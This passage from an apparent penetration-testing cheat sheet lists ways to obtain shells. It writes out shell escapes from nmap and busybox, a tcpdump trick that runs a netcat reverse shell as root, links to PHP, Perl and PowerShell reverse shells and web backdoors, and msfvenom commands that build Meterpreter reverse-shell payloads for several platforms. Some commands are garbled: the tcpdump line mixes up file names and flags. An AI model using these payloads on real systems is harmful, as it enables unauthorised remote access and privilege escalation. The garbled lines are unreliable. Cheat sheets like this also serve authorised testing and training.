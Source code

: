     From within nmap: `!sh`

    From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

    From busybox `/bin/busybox telnetd -|/bin/sh -p9999`

*   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

*   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

*   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

*   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](http://web.archive.org/web/20171113221652/https://github.com/b374k/b374k)

*   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)

*   Web Backdoors from Fuzzdb [https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](http://web.archive.org/web/20171113221652/https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors)

*   Creating Meterpreter Shells with MSFVenom - [http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/](http://web.archive.org/web/20171113221652/http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)

    _Linux_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

    _Windows_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

    _Mac_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

    **Web Payloads**

    _PHP_

    `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
